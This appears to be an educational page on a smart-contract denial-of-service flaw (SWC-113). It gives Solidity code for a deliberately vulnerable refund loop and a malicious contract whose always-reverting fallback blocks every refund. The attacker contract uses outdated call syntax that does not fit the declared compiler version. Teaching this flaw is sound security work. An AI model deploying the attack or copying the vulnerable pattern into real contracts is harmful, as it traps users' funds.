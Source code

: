   DoS Attack Contract
===================

 This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113){target=_blank}).

 The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

    
 


```
pragma solidity 0.8.4;// Example DenialOfService Attack  contract VulnerableContract {    address owner = msg.sender;    address payable[] public subscribers;    uint FEE\_COST = 1 ether;          function subscribe() public payable {        require(msg.value == FEE\_COST, "Insufficient msg.value");        subscribers.push(msg.sender);    }          function refundFees() public {        require(msg.sender == owner, "msg.sender should be owner");        for(uint i = subscribers.length; i > 0; i--) {            subscribers[i - 1].transfer(FEE\_COST);            subscribers.pop();        }    }          function getBalance() view public returns(uint) {        return address(this).balance;    }          // Auxiliar function for demo. It wouldn't be present in a vulnerable contract    function removeLastSubscriber() public {        subscribers.pop();    }}  contract MaliciousContract {    VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);          function subscribe() public payable {        vulnerableContract.subscribe.value(msg.value)();       }          fallback() external payable {        require(false);    }}
```
 